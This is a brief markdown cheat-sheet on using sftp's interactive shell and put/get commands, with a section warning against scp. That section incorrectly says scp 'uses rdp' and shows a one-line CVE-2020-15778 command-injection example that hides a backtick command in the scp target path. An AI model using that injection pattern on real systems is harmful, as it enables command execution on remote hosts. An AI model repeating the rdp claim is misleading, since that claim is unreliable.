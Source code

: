 # sftp

sftp has an interactive shell

```bash
sftp bob@server
sftp> help
```


inside the sftp shell, you can interact with the local disk by prefixing the command with `l`

```bash
sftp> pwd
Remote working directory: /home/remoteuser
sftp> lpwd
Local working directory: /home/user
```


To upload/download a file from inside the sftp shell, use the `put` and `get` commands:

```bash
put -r directory
get /etc/yum.conf
```

# scp

`scp` uses rdp and is insecure! 
Use `sftp` or `rsync` instead. 

[How to exploit](https://github.com/cpandya2909/CVE-2020-15778):

```bash
scp  /sourcefile remoteserver:'`touch /tmp/exploit.sh`/targetfile'
```